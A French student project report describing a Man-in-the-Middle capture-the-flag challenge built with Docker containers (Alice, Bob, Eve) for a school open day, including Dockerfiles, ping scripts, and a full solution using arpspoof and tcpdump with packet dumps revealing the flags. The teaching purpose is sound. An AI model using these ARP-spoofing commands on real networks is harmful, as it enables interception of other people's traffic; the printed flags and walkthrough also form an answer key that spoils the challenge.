



<center><h1> Compte-rendu-Man-In-The-Middle-Le-Goff-Thibaut</h1></center>

Le projet mis en place dans le cadre de la deuxième année de réseaux et télécommunication, dans l'IUT de Béziers, consiste à la création d'une plateforme d'épreuves de type "capture the flag".

Ce projet a aussi pour but de présenter la filière R&T aux lycéens qui seront présents lors de la journée portes ouvertes, le 5 Févriers.

<ins>Les contraintes :</ins>

- les épreuves doivent être préparées via docker pour assurer un meilleur déploiement de ceux-ci sur les différentes machines qu'utiliseront les lycéens lors de la journée portes ouvertes, si celles-ci ne peuvent pas être faites via le site web.

- Les épreuves doivent initier les lycéens à l'informatique (réseaux, sécurité, linux, etc...).

<ins>Répartition de tâches :</ins>

<center>
<table>
        <tr>
            <td>Font Vincent</td>
            <td>Le Goff Thibaut</td>
        </tr>
        <tr>
            <td>Réalisation du site web et de la base de données.</td>
            <td>Réalisation des épreuves.</td>
        </tr>
</table>
</center>

Ce compte-rendu traite de la réalisation de l'épreuve qui consiste à faire d'une attaque Man-In-The-Middle.

Pour lancer l'épreuve, le participant devra lancer une commande docker, qui lui sera donné, qui lancera trois containers : Alice, Bob et Eve.
Il aura accès au bash d'Eve et devra à partir de celui-ci effectuer l'attaque pour intercepter les communications entre Alice et Bob, dans lesquelles il y a les flags.

<ins>Le gantt :</ins>



<ins>L'infrastructure de l'épreuve, d'un point de vue logique :</ins>


<ins>La configuration d'Alice :</ins>

Le Dockerfile :

```Dockerfile
FROM debian:stretch

# mise à jour du système
RUN apt-get update -y \
    && apt-get upgrade -y \
    # installation des paquets nécessaires à la 
    # réalisation de l'épreuve
    && apt-get install -y apt-utils \
    && apt-get install -y iputils-ping \
    && apt-get install -y iptables \
    # Création de l'utilisateur Alice
    && useradd -ms /bin/bash Alice

# ajout du fichier bash qui sert à ping Bob pour transmetre le flag,
# et à ping Eve, le container que le participant contrôlera, afin qu'Alice
#sois enregistré dans sa table arp afin de retrouver son addresse
#ip via un ipneigh
 
ADD ping.sh /ping.sh
RUN chmod 755 /ping.sh \
    # Change d'utilisateur et passage dans sont répertoire 
    # afin que le container soit présentable,
    # si le participant rentre dans le container
    && echo "cd /home/Alice && su Alice" >> /home/Alice/.bashrc

# suite d'espaces, les 20, afin d'éviter que le participant évite
# de prendre les données transmissent comme étant
# le flag qui est : 666c61673a204d4072633020 en argument dans le 
# le Dockerfile afin d'éviter que le participant le trouve
# en lissant le fichier ping.sh 
CMD ["./ping.sh", "202020202020202020202020", "666c61673a204d4072633020"]
```

Le bash qui sert à ping Bob et transmettre le flag :

```bash
#!/bin/bash

#Bloque les echos reply afin que le participant soit obligé
#de faire deux arpspoof, le flag qu'Alice envoie à Bob est
#visible dans l'echo reply que Bob envoie à Alice si le
#participant ne fait qu'un arpspoof en se faisant passer pour
#Alice.

iptables -A OUTPUT -p icmp --icmp-type echo-reply -j DROP && su Alice

for (( ; ; ))
do
 ping -c 1 -p $1 172.50.0.4 > /dev/null & ping -c 1 -p $2 172.50.0.3 > /dev/null
done
```

<ins>La configuration de Bob :</ins>

Le Dockerfile :

``` Dockerfile
FROM debian:stretch

# mise à jour du système
RUN apt-get update -y \
    && apt-get upgrade -y \
    # installation des paquets nécessaires à la 
    # réalisation de l'épreuve
    && apt-get install -y apt-utils \
    && apt-get install -y iputils-ping \
    && apt-get install -y iptables \
    # Création de l'utilisateur Alice
    && useradd -ms /bin/bash Bob

# ajout du fichier bash qui sert à ping Alice pour transmetre le flag,
# et à ping Eve, le container que le participant contrôlera, afin qu'Alice
#sois enregistré dans sa table arp afin de retrouver son addresse
#ip via un ipneigh

ADD ping.sh /ping.sh
RUN chmod 755 /ping.sh \
    # Change d'utilisateur et passage dans sont répertoire 
    # afin que le container soit présentable,
    # si le participant rentre dans le container
    && echo "cd /home/Alice && su Bob" >> /home/Bob/.bashrc

# suite d'espaces, les 20, afin d'éviter que le participant évite
# de prendre les données transmissent comme étant
# le flag qui est : 464c41473a205028297c4f20
# le Dockerfile afin d'éviter que le participant le trouve 
# en lissant le fichier ping.sh 
CMD ["./ping.sh", "202020202020202020202020", "464c41473a205028297c4f20"]
```

Le bash qui sert à ping Alice et transmettre le flag :

``` bash
#!/bin/bash

#Bloque les echos reply afin que le participant soit obligé
#de faire deux arpspoof, le flag que Bob envoie à Alice est
#visible dans l'echo reply qu'Alice envoie à Bob si le
#participant ne fait qu'un arpspoof en se faisant passer pour
#Bob.

iptables -A OUTPUT -p icmp --icmp-type echo-reply -j DROP && su Bob

for (( ; ; ))
do
        ping -c 1 -p $1 172.50.0.4 > /dev/null & ping -c 1 -p $2 172.50.0.2 > /dev/null
done
```

<ins>La configuration d'Eve :</ins>

Le Dockerfile :

``` Dockerfile
FROM debian:stretch

# mise à jour du système
RUN apt-get update -y \
    && apt-get upgrade -y \
    && apt-get install -y apt-utils \
    # installation des paquets nécessaires à la réalisation de l'épreuve
    && apt-get install -y iproute2 \
    && apt-get install -y net-tools \
    && apt-get install -y dsniff \
    && apt-get install -y dhcpdump \
    && apt-get install -y iputils-ping \
    && apt-get install -y sudo \
    && apt-get install -y hping3 \
    && apt-get install -y tshark \
    # Création de l'utilisateur Eve
    && useradd -ms /bin/bash Eve \
    # Donne le mot de passe "Eve" à Eve
    && echo Eve:Eve | chpasswd \
    # ajout d'Eve dans le groupe sudo afin de faire les commandes arpspoof et tcpdump
    && usermod -aG sudo Eve \
    # automatisation afin d'afficher le message d'introduction
    && echo "clear && cat intro.txt" >> /home/Eve/.bashrc

# ajout du message d'introduction
ADD intro.txt /home/Eve/intro.txt
RUN chmod 755 /home/Eve/intro.txt

USER Eve
WORKDIR /home/Eve

CMD ["bash"]
```

Le txt qui sert de message d'introduction :

``` text
Bonjour, dans cette épreuve Alice et Bob s'échangent des pings.
Votre objectif est d'intercepter leurs messages dans lesquels il y a les flags.

/!\ Le mot de passe de Eve est "Eve". /!\
```
Le mot de passe d'Eve est donné, car la commande tcpdump nécessite les droits sudo, Eve fait partie du groupe sudo.

<ins>Réalisation de l'épreuve :</ins>

Sur le terminal du participant :

```bat
titi@Ordititi:~$ docker network create --subnet 172.50.0.0/16 MITM && docker pull ctfiutbeziers/m-alice && docker run --net MITM --ip 172.50.0.2 --cap-add=NET_ADMIN --name alice-red-man --hostname Red-man ctfiutbeziers/m-alice & docker pull ctfiutbeziers/m-bob && docker run --net MITM --ip 172.50.0.3 --cap-add=NET_ADMIN --name bob-red-man --hostname Red-man ctfiutbeziers/m-bob & docker pull ctfiutbeziers/m-eve && docker run --net MITM --ip 172.50.0.4 --cap-add=NET_ADMIN -it --name eve-red-man --hostname Red-man ctfiutbeziers/m-eve
```

<ins>Explications des commandes :</ins>
<center>
<table>
        <tr>
            <td>Commande :</td>
            <td>Explication :</td>
        </tr>
        <tr>
            <td>docker network create --subnet 172.50.0.0/16 MITM
</td>
            <td>Permet de créer un sous-réseau de container, ici, il est en 172.50.0.0/16 et s'appelle MITM.</td>
        </tr>
        <tr>
            <td>docker pull ctfiutbeziers/m-alice</td>
            <td>Télécharge l'image docker nommé ctfiutbeziers/m-alice stockée dans DockerHub, à l'image d'un git clone dans GitHub.</td>
        </tr>
        <tr>
            <td>docker run --net MITM --ip 172.50.0.2 --cap-add=NET_ADMIN --name alice-red-man --hostname Red-man ctfiutbeziers/m-alice</td>
            <td>Lance un container nommé alice-red-man avec pour nom de machine Red-man à partir de l'image ctfiutbeziers/m-alice, lui applique l'adresse ip 172.50.0.2 et le met dans le réseau MITM. l'argument --cap-add=NET_ADMIN sert à donner au container à faire certaines actions qu'il ne peut faire sans, tel qu'utiliser iptable et arpspoof.</td>
        </tr>
        <tr>
            <td>
            docker run --net MITM --ip 172.50.0.4 --cap-add=NET_ADMIN -it --name eve-red-man --hostname Red-man ctfiutbeziers/m-eve
            </td>
            <td>
            Outre l'explication précédente l'argument -it, qui n'est présent unique dans la commande docker run pour m-eve, sert à ouvrir un bash afin que le participant puisse interagir avec le container et le réseau 172.50.0.0.
            </td>
        </tr>
</table>
</center>

Une fois la commande effectuée le participant arrive sur le terminal d'Eve :

```bat
Bonjour, dans cette épreuve Alice et Bob s'échangent des pings.
Votre objectif est d'intercepter leurs messages dans lesquels il y a les flags.

/!\ Le mot de passe de Eve est "Eve". /!\

Eve@Red-man:~$ 
Eve@Red-man:~$ 
```

Voici un exemple de commandes à réaliser afin de réussir l'épreuve (sans leur résultat) :

```bat
Eve@Red-man:~$ sudo su
root@Red-man:/home/Eve# arpspoof -i eth0 -t 172.50.0.2 172.50.0.3 > /dev/null 2>&1 &
root@Red-man:/home/Eve# tcpdump icmp -X
```

Après avoir fait la commande arpspoof, la commande tcpdump donne :

```bat
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
14:50:24.759101 IP alice-red-man.MITM > Red-man: ICMP echo request, id 54, seq 1, length 64
 0x0000:  4500 0054 db66 4000 4001 06d8 ac32 0002  E..T.f@.@....2..
 0x0010:  ac32 0004 0800 2609 0036 0001 b046 bf61  .2....&..6...F.a
 0x0020:  0000 0000 d494 0b00 0000 0000 2020 2020  ................
 0x0030:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0040:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0050:  2020 2020                                ....
14:50:24.759101 IP alice-red-man.MITM > bob-red-man.MITM: ICMP echo request, id 55, seq 1, length 64
 0x0000:  4500 0054 e25b 4000 4001 ffe3 ac32 0002  E..T.[@.@....2..
 0x0010:  ac32 0003 0800 5002 0037 0001 b046 bf61  .2....P..7...F.a
 0x0020:  0000 0000 d094 0b00 0000 0000 3a20 4d40  ............:.M@
 0x0030:  7263 3020 666c 6167 3a20 4d40 7263 3020  rc0.flag:.M@rc0.
 0x0040:  666c 6167 3a20 4d40 7263 3020 666c 6167  flag:.M@rc0.flag
 0x0050:  3a20 4d40                                :.M@
```

Nous pouvons voir le premier flag, celui qu'Alice envoie à Bob, M@rc0.

Cependant, pour réaliser une attaque Man-In-The-Middle, il est nécessaire de réaliser la même commande arpspoof, mais en inversent les adresses ip :

```bat
root@Red-man:/home/Eve# arpspoof -i eth0 -t 172.50.0.3 172.50.0.2 > /dev/null 2>&1 &
[2] 18
root@Red-man:/home/Eve# tcpdump icmp -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:01:15.498614 IP alice-red-man.MITM > bob-red-man.MITM: ICMP echo request, id 185, seq 1, length 64
 0x0000:  4500 0054 26c3 4000 3f01 bc7c ac32 0002  E..T&.@.?..|.2..
 0x0010:  ac32 0003 0800 a577 00b9 0001 3b49 bf61  .2.....w....;I.a
 0x0020:  0000 0000 f39a 0700 0000 0000 3a20 4d40  ............:.M@
 0x0030:  7263 3020 666c 6167 3a20 4d40 7263 3020  rc0.flag:.M@rc0.
 0x0040:  666c 6167 3a20 4d40 7263 3020 666c 6167  flag:.M@rc0.flag
 0x0050:  3a20 4d40                                :.M@
15:01:15.498634 IP Red-man > alice-red-man.MITM: ICMP echo reply, id 184, seq 1, length 64
 0x0000:  4500 0054 5f83 0000 4001 c2bb ac32 0004  E..T_...@....2..
 0x0010:  ac32 0002 0000 7d7e 00b8 0001 3b49 bf61  .2....}~....;I.a
 0x0020:  0000 0000 fd9a 0700 0000 0000 2020 2020  ................
 0x0030:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0040:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0050:  2020 2020                                ....
15:01:15.498634 IP bob-red-man.MITM > alice-red-man.MITM: ICMP echo request, id 155, seq 1, length 64
 0x0000:  4500 0054 0c6e 4000 3f01 d6d1 ac32 0003  E..T.n@.?....2..
 0x0010:  ac32 0002 0800 ce6b 009b 0001 3b49 bf61  .2.....k....;I.a
 0x0020:  0000 0000 fd9a 0700 0000 0000 3a20 5028  ............:.P(
 0x0030:  297c 4f20 464c 4147 3a20 5028 297c 4f20  )|O.FLAG:.P()|O.
 0x0040:  464c 4147 3a20 5028 297c 4f20 464c 4147  FLAG:.P()|O.FLAG
 0x0050:  3a20 5028                                :.P(
```

En plus du précédent, nous pouvons voir le second flag, celui que Bob envoie à Alice, P()|O.

<ins>Point faible de l'épreuve :</ins>
Les flags sont visible via Wireshark :
<center>
    
</center>
À ce jour, aucune solution n'a encore été trouvée pour palier à ce problème.
